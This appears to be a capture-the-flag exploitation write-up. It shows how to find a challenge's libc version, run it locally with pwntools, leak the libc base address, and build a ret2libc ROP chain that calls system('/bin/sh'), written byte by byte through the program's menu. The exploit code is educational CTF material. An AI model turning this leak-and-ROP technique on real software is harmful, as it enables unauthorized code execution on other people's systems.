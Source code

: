 
Getting this running locally (postmortem) with the correct ld and libc made this a lot easier to understand and make progress.

First I needed to find the libc version using the libc provided:

```bash
# curl -X POST -H 'Content-Type: application/json' --data '{"md5": "'$(md5sum libc-2.27.so | awk '{print $1}')'"}' 'https://libc.rip/api/find'
[
  {
    "buildid": "d3cf764b2f97ac3efe366ddd07ad902fb6928fd7",
    "download_url": "https://libc.rip/download/libc6_2.27-3ubuntu1.2_amd64.so",
    "id": "libc6_2.27-3ubuntu1.2_amd64",
    "md5": "35ef4ffc9c6ad7ffd1fd8c16f14dc766",
    "sha1": "a22321cd65f28f70cf321614fdfd22f36ecd0afe",
    "sha256": "f0ad9639b2530741046e06c96270b25da2339b6c15a7ae46de8fb021b3c4f529",
    "symbols": {
      "__libc_start_main_ret": "0x21b97",
      "dup2": "0x110ab0",
      "printf": "0x64f00",
      "puts": "0x80a30",
      "read": "0x110180",
      "str_bin_sh": "0x1b40fa",
      "system": "0x4f4e0",
      "write": "0x110250"
    }
  }
]
```

From here I just linked `libc-database` into my working directory (Google for `libc-database`) and typed `./download libc6_2.27-3ubuntu1.2_amd64` from within that directory.  Now I have all the libs.

`p = process([ld.path, binary.path], env={'LD_LIBRARY_PATH':libpath, 'LD_PRELOAD':'./libstdc.so.6.0.25'})` above will use the correct ld/libc.  As for debugging I used `gef -x script grid $(pidof ld-2.27.so)`.

From this setup with the correct libc it was easy to confirm the offset.


```python
p.sendlineafter('shape> ','d')
p.recvuntil('Displaying')
_ = p.recvuntil('shape').replace(b'shape',b'').strip().replace(b'\n',b'')
a = [_[i:i+8] for i in range(0,len(_),8)][:-1]
#for i in a: log.info(hex(u64(i)))
libc.address = u64(a[3]) - libc.sym.base_offset
log.info('libc.address: ' + hex(libc.address))
```

Above is the leak.


```python
rop = ROP([binary])
pop_rdi = rop.find_gadget(['pop rdi','ret'])[0]

payload  = b''
payload += p64(pop_rdi + 1)
payload += p64(pop_rdi)
payload += p64(libc.search(b'/bin/sh').__next__())
payload += p64(libc.sym.system)

base=120
for i in range(len(payload)):
    p.sendlineafter('> ',p8(payload[i]) + b' 0 ' + str(base + i).encode())

p.sendlineafter('shape> ','d')
```